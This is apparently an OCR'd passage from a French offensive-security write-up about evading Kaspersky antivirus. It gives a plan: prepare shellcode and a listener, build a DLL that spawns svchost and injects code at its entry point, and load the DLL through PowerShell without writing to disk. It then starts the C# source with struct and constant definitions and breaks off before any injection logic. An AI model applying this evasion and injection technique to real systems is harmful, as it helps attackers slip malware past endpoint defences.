 
## KASPERSKY PWN PLAN
Maintenant qu'on sait tout ça, on attaque.
Ce qu'on va faire :
1. On va générer notre shellcode et on prépare l'écoute
2. Créer une DLL qui, lors de l'appel, spawn un process svchost puis insère du code à son entrypoint. En plus, svchost est connu pour communiquer sur le réseau.
3. Charger la DLL via powershell, sans rien écrire sur le disque.

## C'EST PARTI
- Premièrement, on va compiler notre assembly en x64 (Ici on va faire une DLL, mais ça aurait très bien pu être un exécutable classique).

```csharp
//Allez voir le git de chvancooten pour voir les autres techniques et le code dans son ensemble.
using System;
using System.Runtime.InteropServices;
namespace Assembly
{
    public class Class1
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int PROCESSBASICINFORMATION = 0;
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct ProcessInfo
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 ProcessId;
            public Int32 ThreadId;
        }
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct StartupInfo
        {
            public uint cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public uint dwX;
            public uint dwY;
            public uint dwXSize;
            public uint dwYSize;
            public uint dwXCountChars;
            public uint dwYCountChars;
            public uint dwFillAttribute;
            public uint dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }
        [StructLayout(LayoutKind.Sequential)]
        internal struct ProcessBasicInfo
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }
```